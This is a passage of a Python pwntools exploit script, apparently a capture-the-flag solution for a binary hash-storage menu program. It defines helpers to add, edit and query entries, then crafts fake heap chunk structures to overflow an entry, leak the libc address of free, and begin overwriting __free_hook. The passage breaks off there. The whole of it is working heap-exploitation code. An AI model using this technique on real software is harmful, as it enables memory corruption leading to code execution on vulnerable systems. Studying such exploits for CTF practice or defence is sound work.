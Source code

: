 ```python
    p.sendlineafter("hashcode", code)

def del_hash(idx):
    p.sendlineafter("option", str(2))
    p.sendlineafter("input id", str(idx))

def edit_hash(idx, option, new_value):
    if option == "type":
        optn = 1
    elif option == "code":
        optn = 3
    elif option == "name":
        optn = 2
    p.sendlineafter("option", str(3))
    p.sendlineafter("input id", str(idx))
    p.sendlineafter("option", str(optn))
    p.sendline(new_value)

def query_hash(hash_type, pattern):
    p.sendlineafter("option", str(4))
    p.sendlineafter("input type", hash_type)
    p.sendlineafter("pattern\n", pattern)
    p.recvuntil("name=")
    name = p.recvline().strip()
    p.recvuntil("hashcode=")
    hashcode = p.recvline().strip()
    return name, hashcode

########################## leak libc ######################################
new_hash("md5_16", "bbb", 'a' * 16)
new_hash("md5_16", "ccc", 'a' * 16)

edit_hash(0, "type", "sha256")

fake_st = [
        0, #prev size
        0x21, #size
        0x10, #hash_len
        0x601f78, #name
        0x601f80, #code
        0x21
        ]
payload = ''.join([p64(_) for _ in fake_st])

edit_hash(0, "code", 'a' * 16 + payload)
name, code = query_hash("md5_16", ".")
free_addr = u64(name.ljust(8, '\x00'))
libc.address = free_addr - libc.symbols['free']
free_hook_addr = libc.symbols['__free_hook']

raw_input("attach")
########################### write malloc hook ############################
fake_st = [
        0, #prev size
        0x21, #size
        0x10, #hash_len
        0x601f78, #name
        free_hook_addr, #code
        0x21
        ]
payload = ''.join([p64(_) for _ in fake_st])
edit_hash(0, "code", 'a' * 16 + payload)

```